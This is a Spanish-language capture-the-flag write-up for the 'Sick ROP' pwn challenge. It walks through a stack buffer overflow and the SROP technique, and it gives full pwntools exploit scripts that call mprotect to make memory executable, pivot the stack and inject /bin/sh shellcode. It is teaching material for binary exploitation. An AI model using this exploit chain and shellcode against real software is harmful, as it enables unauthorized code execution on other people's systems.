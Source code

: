 ```yaml
---
title: Sick ROP
date: 2024-08-11
tier: easy
author: naibu3
---
```

#pwn #writeup 
# Reconocimiento

Se nos da un binario, al que comenzamos lanzándole [[checksec]]:

```checksec
Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Vemos que tiene el [[NX bit]], además, por el nombre podemos intuir que aplicaremos [[Return Oriented Programming]].

Si descompilamos, veremos que existe una función *vuln* que lee y escribe constantemente:

> **VULN**
```asm
0x000000000040102e <+0>:	push   rbp
0x000000000040102f <+1>:	mov    rbp,rsp
0x0000000000401032 <+4>:	sub    rsp,0x20
0x0000000000401036 <+8>:	mov    r10,rsp
0x0000000000401039 <+11>:	push   0x300
0x000000000040103e <+16>:	push   r10
0x0000000000401040 <+18>:	call   0x401000 <read>
0x0000000000401045 <+23>:	push   rax
0x0000000000401046 <+24>:	push   r10
0x0000000000401048 <+26>:	call   0x401017 <write>
0x000000000040104d <+31>:	leave
0x000000000040104e <+32>:	ret
```

> **READ**
```asm
0x0000000000401000 <+0>:	mov    eax,0x0
0x0000000000401005 <+5>:	mov    edi,0x0
0x000000000040100a <+10>:	mov    rsi,QWORD PTR [rsp+0x8]
0x000000000040100f <+15>:	mov    rdx,QWORD PTR [rsp+0x10]
0x0000000000401014 <+20>:	syscall
0x0000000000401016 <+22>:	ret
```

> **WRITE**
```asm
0x0000000000401017 <+0>:	mov    eax,0x1
0x000000000040101c <+5>:	mov    edi,0x1
0x0000000000401021 <+10>:	mov    rsi,QWORD PTR [rsp+0x8]
0x0000000000401026 <+15>:	mov    rdx,QWORD PTR [rsp+0x10]
0x000000000040102b <+20>:	syscall
0x000000000040102d <+22>:	ret
```

Antes de *read*, vemos que se reserva *0x20*, sin embargo, al almacenar, se almacena *0x300*. Esto nos indica una vulnerabilidad de tipo [[Buffer overflow]]. Podemos calcular el *offset*, que sería 32 (0x20 en decimal) más 8 bytes ya que rbp se está almacenando también en el stack, lo que da un total de **40**.

En este punto podemos mirar con [[ropper]] los gadgets que tenemos disponibles:

```asm
0x0000000000401009: add byte ptr [rax - 0x75], cl; je 0x1032; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x0000000000401020: add byte ptr [rax - 0x75], cl; je 0x1049; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x0000000000401008: add byte ptr [rax], al; mov rsi, qword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x0000000000401012: and al, 0x10; syscall; 
0x0000000000401012: and al, 0x10; syscall; ret; 
0x000000000040100d: and al, 8; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100d: and al, 8; mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x0000000000401040: call 0x1000; push rax; push r10; call 0x1017; leave; ret; 
0x0000000000401048: call 0x1017; leave; ret; 
0x0000000000401044: call qword ptr [rax + 0x41]; 
0x0000000000401044: call qword ptr [rax + 0x41]; push rdx; call 0x1017; leave; ret; 
0x000000000040104c: dec ecx; ret; 
0x000000000040100c: je 0x1032; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x000000000040100c: je 0x1032; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; ret; 
0x0000000000401023: je 0x1049; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x0000000000401023: je 0x1049; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; ret; 
0x0000000000401041: mov ebx, 0x50ffffff; push r10; call 0x1017; leave; ret; 
0x0000000000401010: mov edx, dword ptr [rsp + 0x10]; syscall; 
0x0000000000401010: mov edx, dword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100b: mov esi, dword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100b: mov esi, dword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100f: mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100f: mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100a: mov rsi, qword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100a: mov rsi, qword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100e: or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x000000000040100e: or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; ret; 
0x0000000000401046: push r10; call 0x1017; leave; ret; 
0x0000000000401045: push rax; push r10; call 0x1017; leave; ret; 
0x0000000000401047: push rdx; call 0x1017; leave; ret; 
0x0000000000401011: push rsp; and al, 0x10; syscall; 
0x0000000000401011: push rsp; and al, 0x10; syscall; ret; 
0x0000000000401049: retf 0xffff; dec ecx; ret; 
0x000000000040104d: leave; ret; 
0x0000000000401016: ret; 
0x0000000000401014: syscall; 
0x0000000000401014: syscall; ret;
```

# Explotación

No son muchos ya que el binario es pequeño. Por suerte, tenemos *`syscall`*, por lo que podemos probar una técnica llamada [[SROP]].

Por desgracia, para esta técnica necesitaríamos el gadget `mov eax, 0xf`, sin embargo, hay una forma de hacerlo mediante la llamada a *read*. Con el siguiente script, lograremos cambiar de localización el stack, a una zona con permisos de ejecución, donde podremos introducir un [[Injecting shellcode|shellcode]]:

```python
#!/usr/bin/python3
# Author : trustie_rity
  
from pwn import *
  
elf = ELF('./sick_rop')
if args.R:
	p = remote("*.*.*.*",30479)
else:
	p = elf.process()
  
context.clear(arch='amd64') 
context.log_level = 'debug'
  
syscall_ret = 0x401014 
writable = 0x400000
vuln = elf.sym.vuln
  
payload = b'A'*40    # to our offset
payload += p64(vuln)
payload += p64(syscall_ret)
  
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0xa      # syscall for mprotect()
frame.rdi = writable
frame.rsi = 0x4000
frame.rdx = 0x7      # rwx (read ,write , execute)
frame.rsp = 0x4010d8 # this will be our new stack kind of ie addr 0x400...
frame.rip = syscall_ret

payload += bytes(frame) # fake sigreturnframe
  
# sending
p.sendline(payload)
p.recv()
  
payload = b'B'* (0xf - 1 ) # sigret 15 syscall
p.sendline(payload)
p.recv()
```

Una vez hecho esto, solo falta volver a llamar a *vuln*, pero esta vez tan solo debemos pasar un [[Crafting shellcodes|shellcode]], seguido de la dirección donde *read* almacena el input.

El script sería:

```python
#!/usr/bin/python3  
# Author : trustie_rity  
  
from pwn import *  
  
elf = ELF('./sick_rop')  
if args.R:  
 p = remote("*.*.*.*",30479)  
else:  
 p = elf.process()  
context.clear(arch='amd64')  
context.log_level = 'debug'  
  
syscall_ret = 0x401014  
read = 0x401000  
writable = 0x400000  
new_ret = 0x400018  
vuln = elf.sym.vuln  
  
payload = b'A'*40    # to our offset  
payload += p64(vuln)  
payload += p64(syscall_ret)  
  
frame = SigreturnFrame(kernel="amd64")  
frame.rax = 0xa     # syscall for mprotect()  
frame.rdi = writable  
frame.rsi = 0x4000  
frame.rdx = 0x7    # rwx (read ,write , execute)  
frame.rsp = 0x4010d8 # this will be our new stack kind of ie addr 0x400...  
frame.rip = syscall_ret  
  
payload += bytes(frame) # fake sigreturnframe  
  
# sending  
p.sendline(payload)  
p.recv()  
  
payload = b'B'* (0xf - 1 ) # sigret 15 syscall  
p.sendline(payload)  
p.recv()  
  
# shellcode  
shell_code = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  
payload = shell_code.ljust(40, b'A')  
payload += p64(0x4010b8)  
log.info('[*] Sending second stage payload with {} bytes ...'.format(len(payload)))  
p.sendline(payload)  
  
p.interactive()
```